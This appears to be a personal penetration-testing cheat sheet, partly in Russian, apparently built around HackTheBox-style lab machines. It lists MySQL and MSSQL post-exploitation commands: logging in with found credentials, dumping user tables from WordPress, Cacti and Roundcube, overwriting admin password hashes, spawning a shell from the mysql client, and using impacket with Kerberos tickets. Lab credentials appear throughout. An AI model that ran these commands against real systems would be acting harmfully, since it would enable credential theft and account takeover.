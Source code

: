 ********************************************************************************

mysql -h 123.123.131.131 -u root -p

mysql -u bolt_dba -p

        запуск оболочки \! /bin/sh

    SHOW databases; : Prints out the databases we can access.
    USE {database_name}; : Set to use the database named {database_name}.
    SHOW tables; : Prints out the available tables inside the current database.
    SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
    describe Users;
    update {table_name} set {user_pass} = MD5('password123') where ID = 1;

# Подключение к mysql из нутри

    mysql --host=db --user=root --password=root cacti -e "show tables"
    mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
    
    mysql --user=root -p 

    mysql -u 'roundcube' -p'RCDBPass2025' roundcube -e "show tables; select * from users "

    select * from wp_users \G (в удобном виде)

    update wp_users set user_pass='$P$Bn.uHsPKseIJ4CdDVxOiQKmXFHrkC1.' where id=1;

    update (tables_name) set (column_password_nmae)='$P$Bn.uHsPKseIJ4CdDVxOiQKmXFHrkC1.' where id=1;

# MySqlDUMP

    mysqldump -u theseus(user) -p Magic(datab)



# Подключение к БД windows microsoft sql service (MSSQL)

    sqsh -S 10.129.20.13 -U username -P Password123
    SELECT name FROM master.dbo.sysdatabases
    GO
    USE htbusers;
    GO
    SHOW TABLES;
    SELECT * FROM users;
    
************************************************************
    mssqlclient.py 'reporting:PcwTWTHRwryjc$c6'@10.10.10.125 -db volume -windows-auth

    impacket-mssqlclient ARCHETYPE/sql_svc@10.129.21.3 -windows-auth

    impacket-mssqlclient dc1.scrm.local -k (по керберосу)

---перед этим 

impacket-getTGT scrm.local/sqlsvc:Pegasus60
